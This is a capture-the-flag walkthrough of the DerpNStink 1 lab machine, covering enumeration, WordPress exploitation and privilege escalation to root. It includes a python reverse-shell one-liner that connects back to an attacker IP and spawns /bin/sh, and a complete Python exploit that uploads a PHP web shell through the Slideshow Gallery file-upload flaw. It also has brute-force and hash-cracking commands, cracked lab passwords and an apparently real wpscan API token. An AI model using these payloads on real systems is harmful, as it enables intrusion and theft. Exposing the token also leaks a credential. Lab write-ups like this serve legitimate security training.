

# DerpNStink 1

# 1 Information gathering
## 1.1 Discovery host
`nmap -n -Pn -F 192.168.196.1/24 -oN host_discovery.txt`



## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.133 -oN full_service_enum-sC.txt`


`nmap -sV -sU -F 192.168.196.133 -oN udp-sC-sV.txt`


## 1.3 Web
## 1.3.1 Gobuster
`gobuster dir -u http://192.168.196.133 -w /usr/share/wordlists/dirb/big.txt -t 50 -f -o info-slash.txt`


`gobuster dir -u http://192.168.196.133 -w /usr/share/wordlists/dirb/big.txt -t 50 -o info.tx`


## 1.3.2 Wordpress


### 1.3.2.1 Wpscan
`wpscan --url http://derpnstink.local/weblog/ -e ap,at,tt,cb,dbe,u1-20,m --plugins-detection aggressive --disable-tls-checks --api-token 7MBL9noH6s6pOW5qAM6boXVS5wEMayvrBaaoBbMaIKg -o all-info.txt --ignore-main-redirectt`


# 2 Exploitation using previously found exploits (Slideshow Gallery < 1.4.7 - Arbitrary File Upload)
## 2.1 Wordpress brute force login - wpscan
`wpscan --url http://derpnstink.local/weblog/ -P /root/shared/rockyou.txt -U admin -t 50`


## 2.2 Shell reverse with public exploit
https://www.exploit-db.com/exploits/34681/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

`python2.7 34681.py -t http://derpnstink.local/weblog/ -u admin -p admin -f shell.php`


`python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.196.121",4446));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`


## 2.2 Web shell with coded exploit
http://whitexploit.blogspot.com/ <- explanation about the vuln
```
#!/usr/bin/env python3
#! Exploit by byth22 - Kellvin Romano
import requests
import os

def login(username,password):
    cookies = {
        'wordpress_test_cookie': 'WP+Cookie+check',
    }

    headers = {
        'Host': 'derpnstink.local',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': '114',
        'Origin': 'http://derpnstink.local',
        'Connection': 'close',
        'Referer': 'http://derpnstink.local/weblog/wp-login.php?loggedout=true',
        'Upgrade-Insecure-Requests': '1',
    }

    data = 'log='+username+'&pwd='+password+'&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1'

    global s
    s = requests.Session()
    return s.post('http://derpnstink.local/weblog/wp-login.php', headers=headers, cookies=cookies, data=data, verify=False)


def upload_shell(shell,shell_name):
    global s
    headers = {
        'Host': 'derpnstink.local',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'multipart/form-data; boundary=---------------------------323205443534659833621751587321',
        'Content-Length': '1999',
        'Origin': 'http://derpnstink.local',
        'Connection': 'close',
        'Referer': 'http://derpnstink.local/weblog/wp-admin/admin.php?page=slideshow-slides&method=save',
        'Upgrade-Insecure-Requests': '1',
    }

    params = (
        ('page', 'slideshow-slides'),
        ('method', 'save'),
    )

    data = '-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[id]"\r\n\r\n\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[order]"\r\n\r\n\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[title]"\r\n\r\nteste\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[description]"\r\n\r\nteste\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[showinfo]"\r\n\r\nnone\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[iopacity]"\r\n\r\n70\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[type]"\r\n\r\nfile\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="image_file"; filename="'+shell_name+'"\r\nContent-Type: application/x-php\r\n\r\n'+shell+'\n\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[image_url]"\r\n\r\n\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[uselink]"\r\n\r\nN\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[link]"\r\n\r\n\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[linktarget]"\r\n\r\nself\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="submit"\r\n\r\nSave Slide\r\n-----------------------------323205443534659833621751587321--\r\n'

    response = s.post('http://derpnstink.local/weblog/wp-admin/admin.php', headers=headers, params=params,  data=data, verify=False)
    print ("[!] Shell upload successfully!")
    print ("[!] The path is /wp-content/uploads/slideshow-gallery/ + shell name!")
    return True

def read_shell(shell):
    with open(shell) as f:
        lines = f.read()

    return lines

def main():
    cookie = login('admin','admin') # <- set you user and pass here
    shell = read_shell('./shell3.php') # <- set file to upload
    upload_shell(shell, 'shell3.php') # <- set file and u name


main()

```


# 3 Post-exploitation
Content of wp-config.php:


## 3.1 Hashs on mysql table
`mysql -u root -p`


### 3.1.1 Hashcat cracking md5
https://blog.wpsec.com/cracking-wordpress-passwords-with-hashcat/

`Hash-identifier` was identified that that hahes are md5 wordpress.

`hashcat -m 400 -a 1 hash.txt /root/shared/rockyou.txt`

wedgie57 <- password


## 3.2 Login as Stinky
Based on home users, tried to login to ssh.


Without permission.

## 3.3 Ftp login as Stinky


`cat derpissues.txt key.txt test.txt| less -r`


## 3.4 SSH login as Stinky


It needs specific permissions.

`chmod  0200 key.txt`


### 3.4.1 Enum and analysing pcap file


Analysing this post requests on file user-new.php, we found a user and password following the tcp stream:

	

### 3.5 Login with su as mrderp
mrderp:derpderpderpderpderpderpderp


## 3.6 Login as root - sudo abusing


This folder (binaries) doesn't exist, but we can creat and abuse it.


Is rooted!
